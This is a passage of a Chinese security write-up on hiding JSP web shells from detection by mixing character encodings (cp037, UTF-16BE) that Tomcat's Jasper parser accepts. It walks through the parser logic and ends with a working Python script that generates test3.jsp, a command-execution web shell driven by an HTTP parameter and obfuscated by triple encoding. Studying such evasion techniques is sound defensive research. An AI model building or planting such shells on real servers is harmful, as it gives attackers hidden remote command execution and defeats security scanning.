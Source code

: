 ```plain
    f.write(a0.encode("utf-16be"))
    f.write(a1.encode("utf-8"))
    f.write(a2.encode("utf-16be"))
```

成功利用  
[![11.png](assets/1698894037-dcf2f1e0dbd8d2c7c50511cac44c9efa.png)](https://storage.tttang.com/media/attachment/2022/11/23/ef43d678-ac48-4a81-a629-4b1024ee80a5.png)

#### [三重编码](#toc__6)

在上面的基础上我们还可以进一步利用，为什么呢？我们知道它在识别标签`<jsp:directive.`或`<%@`的过程中是调用了`jspReader.xxx`去实现的，而这个`jspReader`来源于前面的调用

```plain
JspReader jspReader = null;
try {
  jspReader = new JspReader(ctxt, absFileName, sourceEnc, jar, err);
} catch (FileNotFoundException ex) {
  throw new JasperException(ex);
}
```

聪明的你一定能看出这里的`sourceEnc`是我们可以控制的 (前面讲过了忘了往上翻复习下)

因此我们对整个利用梳理一下

1.  保证无法通过 BOM 识别出文本内容编码 (保证 isBomPresent 为 false)
2.  通过`<?xml encoding='xxx'`可以控制`sourceEnc`的值
3.  将标签`<jsp:directive.`或`<%@`放置在全文任意位置但不影响代码解析
4.  通过标签`<jsp:directive.`或`<%@`的`pageEncoding`属性再次更改文本内容编码

这里我按要求随便写了一个符合的例子

```plain
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a3 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test3.jsp","wb") as f:
    f.write(a0.encode("utf-8"))
    f.write(a1.encode("utf-16be"))
    f.write(a2.encode("cp037"))
    f.write(a3.encode("utf-16be"))
```
